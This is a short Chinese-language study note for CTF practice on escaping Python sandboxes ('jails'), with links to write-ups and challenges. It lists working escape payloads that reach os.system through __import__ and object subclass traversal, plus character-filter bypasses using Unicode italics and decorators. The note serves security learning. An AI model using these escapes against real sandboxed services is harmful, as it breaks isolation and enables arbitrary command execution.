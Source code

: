 ```yaml
---
tags:
  - notes
comments: true
dg-publish: true
---
```



> [!PREREQUISITE]
>
> 准备练练 python jail ，准备资料如下：
>
> - [Tr0y's Blog](https://www.tr0y.wang/)
>     - [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/)
>     - [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
>     - [Unicode 的使用](https://www.tr0y.wang/2020/08/18/IDN/#%E5%88%A9%E7%94%A8%E5%9C%BA%E6%99%AF)
> - [nssctf](https://www.nssctf.cn/problem) (搜 jail 即可)
>     - [一个简单的题解](https://www.aiwin.fun/index.php/archives/3992/)
> - [github-autojail](https://github.com/martcl/autojail)
> - [moectf2024 题目链接](https://ctf.xidian.edu.cn/games/10/challenges?challenge=95)

- [Moejail](../../MOECTF2024/MISC.md#Moejail)

-  `__import__('os').system('ls')`
- `[i.__init__.__globals__['linecache'].__dict__['os'].system('whoami') for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "catch_warnings"]`
- `[i for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "_wrap_close"][0].__init__.__globals__['system']('cat ./flag')`
- 限制 A-z0-9 => https://lingojam.com/ItalicTextGenerator
- 限制 `'"{}[]()_` => ` @exec\n@input\nclass\tx:\n\tpass`

```python
@exec
@input
class x:
    pass

exec("@exec\n@input\nclass\tx:\n\tpass")
# exec("@𝘦𝘹𝘦𝘤\n@𝘪𝘯𝘱𝘶𝘵\n𝘤𝘭𝘢𝘴𝘴\t𝘹:\n\t𝘱𝘢𝘴𝘴")
```